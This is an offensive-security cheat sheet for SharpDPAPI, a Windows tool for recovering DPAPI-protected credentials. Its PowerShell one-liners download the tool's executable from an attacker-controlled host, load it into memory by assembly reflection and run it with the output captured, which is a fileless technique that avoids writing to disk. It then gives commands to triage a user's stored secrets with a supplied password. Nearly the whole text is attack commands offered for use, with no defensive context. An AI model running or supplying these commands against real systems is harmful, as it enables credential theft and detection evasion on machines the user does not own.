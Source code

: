 # SharpDPAPI

% SharpDPAPI, dpapi
#plateform/windows  #target/local   #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## download into memory
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/windows/NetFramework_4.7_x64/SharpDPAPI.exe'); $asm = [System.Reflection.Assembly]::Load($data); 
```


## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## Triage user
```powershell
SharpDPAPI.exe triage /password:<password>
```

## Triage user (assembly reflection)
```powershell
$params="triage /password:<password>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
